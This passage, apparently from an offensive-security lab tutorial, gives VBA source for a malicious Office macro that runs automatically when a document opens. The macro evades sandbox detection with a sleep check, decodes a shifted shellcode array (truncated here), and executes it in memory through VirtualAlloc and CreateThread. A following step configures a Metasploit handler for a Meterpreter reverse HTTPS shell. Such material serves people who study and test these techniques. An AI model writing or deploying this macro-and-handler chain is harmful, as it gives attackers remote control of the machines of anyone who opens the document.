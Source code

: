     Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

    Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

    Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

    Function MyMacro()
        Dim buf As Variant
        Dim addr As LongPtr
        Dim counter As Long
        Dim data As Long
        Dim res As Long
        Dim t1 As Date
        Dim t2 As Date
        Dim time As Long
        Dim i As Integer
        
    'sleeper to bypass heuristic detection
        t1 = Now()
        Sleep (2000)
        t2 = Now()
        time = DateDiff("s", t1, t2)
        
        If time < 2 Then
            Exit Function
        End If

    'shellcode generated with the helper
        buf = Array(254, 234, 145, 2, 2, 2, 98, 51,........)

    'decryption routine
    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i

        addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
        
        For counter = LBound(buf) To UBound(buf)
            data = buf(counter)
            res = RtlMoveMemory(addr + counter, data, 1)
        Next counter
        
        res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function

    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub
    ```
4. Use Metasploit (`sudo msfconsole -q`) and set up a `multi-handler` with the same payload used in msfvenom.
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_https
    set LHOST tun0
    set LPORT 443
    options
    exploit
    ```
